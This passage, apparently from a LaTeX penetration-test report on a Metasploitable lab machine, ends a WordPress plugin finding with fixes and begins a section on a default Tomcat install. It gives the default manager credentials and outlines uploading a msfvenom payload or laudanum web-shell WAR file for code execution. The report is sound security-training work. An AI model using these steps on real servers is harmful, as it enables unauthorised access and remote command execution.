	
\includegraphics[width=\linewidth]{images/wp-logged-in.png}
	\caption{Wordpress dashboard.}
	\label{fig:wordpress4}
\end{figure}

\paragraph{Recommendation}

\begin{enumerate}
  \item Remove the vulnerable plugin.
  \item Upgrade the vulnerable plugin.
\end{enumerate}

\paragraph{References}

\begin{enumerate}
  \item https://www.exploit-db.com/exploits/5486/
\end{enumerate}

\newpage
\section{Default Tomcat Installation}

\paragraph{Apache Tomcat}
In the nikto scan we saw that the metasploitable box was using a default Apache
Tomcat installation:

\begin{lstlisting}
+ /: Appears to be a default Apache Tomcat install.
\end{lstlisting}

The default credentials to access the Tomcat manager is username: tomcat and password: tomcat.
The first step is to open the Tomcat homepage.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/tomcat-metasploitable.png}
	\caption{Default Tomcat install.}
	\label{fig:tomcat-injection1}
\end{figure}

\newpage
Then click on Tomcat Manager and enter the default credentials.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/tomcat-metasploitable-credentials.png}
	\caption{Default Tomcat credentials.}
	\label{fig:tomcat-injection2}
\end{figure}

\newpage
Now we can start and stop existing applications. We can upload our own WAR files.
We can either craft a WAR file with a metasploit payload using msfvenom. 
I used a laudanum cmd.war file for upload.

%\begin{figure}[h!]
